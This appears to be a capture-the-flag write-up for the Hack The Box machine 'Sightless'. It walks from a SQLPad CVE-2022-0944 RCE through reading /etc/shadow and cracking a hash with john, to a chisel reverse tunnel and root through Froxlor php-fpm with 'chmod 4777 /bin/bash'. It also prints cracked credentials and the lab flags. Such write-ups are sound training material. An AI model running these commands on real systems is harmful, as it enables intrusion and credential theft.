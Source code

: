 ﻿---
sticker: lucide//eye-off
---
# ENUMERATION
---

## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 21   | FTP     |
| 22   | SSH     |
| 80   |         |

Let's start with reconnaissance.

# RECONNAISSANCE
---

![Pasted image 20250107170937.png](../../IMAGES/Pasted%20image%2020250107170937.png)

`echo "10.10.11.32 sightless.htb" | sudo tee -a /etc/hosts 2>/dev/null`

![Pasted image 20250107171213.png](../../IMAGES/Pasted%20image%2020250107171213.png)

Now we can access the website, we have a `home`, `about`, `services` and a `contact us` part, if we go to the service part, we can see the following:

![Pasted image 20250107171349.png](../../IMAGES/Pasted%20image%2020250107171349.png)

We got a `sqlpad` service, if we click start now, we are redirected to `sqlpad.sightless.htb`, let's add this subdomain to `/etc/hosts` too:

![Pasted image 20250107171612.png](../../IMAGES/Pasted%20image%2020250107171612.png)

Now we find ourselves in a sqlpad panel, if we look further in the site, we find we are using sqlpad 6.10.0:

![Pasted image 20250107172243.png](../../IMAGES/Pasted%20image%2020250107172243.png)

Let's check the web and see if there's anything related to this version:

![Pasted image 20250107172334.png](../../IMAGES/Pasted%20image%2020250107172334.png)

Found `CVE-2022-0944` which talks about a Template injection leading to a RCE, I also found this [github exploit](https://github.com/0xDTC/SQLPad-6.10.0-Exploit-CVE-2022-0944/blob/master/CVE-2022-0944) which works with bash:

![Pasted image 20250107182931.png](../../IMAGES/Pasted%20image%2020250107182931.png)


# EXPLOITATION
---

Now we find ourselves in a sqlpad panel, if we look further in the site, we find we are using sqlpad 6.10.0:

![Pasted image 20250107172243.png](../../IMAGES/Pasted%20image%2020250107172243.png)

Let's check the web and see if there's anything related to this version:

![Pasted image 20250107172334.png](../../IMAGES/Pasted%20image%2020250107172334.png)

Found `CVE-2022-0944` which talks about a Template injection leading to a RCE, I also found this [github exploit](https://github.com/0xDTC/SQLPad-6.10.0-Exploit-CVE-2022-0944/blob/master/CVE-2022-0944) which works with bash:

![Pasted image 20250107182931.png](../../IMAGES/Pasted%20image%2020250107182931.png)

Let's [stabilize the shell](../../Commands/Shell%20Tricks/STABLE%20SHELL.md), we would think that we already beat the machine since we got root access but no, we are inside of a docker container, we need some sort of way to get into the real machine, that's when we find 2 users, Michael and node:

![Pasted image 20250107183525.png](../../IMAGES/Pasted%20image%2020250107183525.png)

![Pasted image 20250107183536.png](../../IMAGES/Pasted%20image%2020250107183536.png)


Since we already have root access in the docker container, let's read `/etc/shadow` and get the hash for michael user:

![Pasted image 20250107183633.png](../../IMAGES/Pasted%20image%2020250107183633.png)

```ad-note
Michael hash is: 

`$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/`

----
We need to crack this hash using john, let's do it:

`john hash -w=/usr/share/wordlist/rockyou.txt`

----
This will output: `insaneclownposse`


Let's log into ssh using those credentials:


`michael`:`insaneclownposse`
```



![Pasted image 20250107184751.png](../../IMAGES/Pasted%20image%2020250107184751.png)

Now we are inside of michael's account, we can read the user flag now:

```ad-note
user flag: `fa24b7668682e82a648c821ccf0d9526`
```

# Privilege escalation
---

Let's proceed with privesc.

We'll be using linpeas to show use some possible PE vectors:

![Pasted image 20250107185646.png](../../IMAGES/Pasted%20image%2020250107185646.png)

There is a weird connection made to the port `8080`, we need to investigate this, for this, we will use chisel as we need to resend the traffic back to our local machine:

```ad-hint

##### Doing a reverse proxy
---
1. `chisel server -p 9999 --reverse`
2. `chmod +x chisel`
3. `./chisel client 10.10.15.36:9999 R:8080:127.0.0.1:8080`


```

Now, let's visit the page:

![Pasted image 20250107192343.png](../../IMAGES/Pasted%20image%2020250107192343.png)

It's executing froxlor, in order to get the credentials, we'll be using the following exploit: [exploit](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/chrome-remote-debugger-pentesting/), this is basically a chrome remote debugger pentest, since the machine is running chrome actively, we can use this to exploit and access the credentials, once we've reproduce all the steps accordingly to the notes, we get the following credentials:

```ad-note

`admin`:`ForlorfroxAdmin`

```


Let's log into the panel:

![Pasted image 20250107193550.png](../../IMAGES/Pasted%20image%2020250107193550.png)

We got access to the panel, as seen, we have a php section, this has the following:

![Pasted image 20250107193639.png](../../IMAGES/Pasted%20image%2020250107193639.png)

We got `php-fpm`, we are able to execute php code, we can do the following:

```ad-note
1. Create new PHP version
2. `chmod 4777 /bin/bash`
3. Go to `/system/settings/php-fpm`, disable it and enable it again
4. Go to our terminal and perform `/bin/bash -p`
5. Get root shell
```


```ad-important
If we did all correctly, we are able to get root access:


This is the root flag:


Root: `1c4c6860beaa42a5b9b8e404fbcbf656`


```
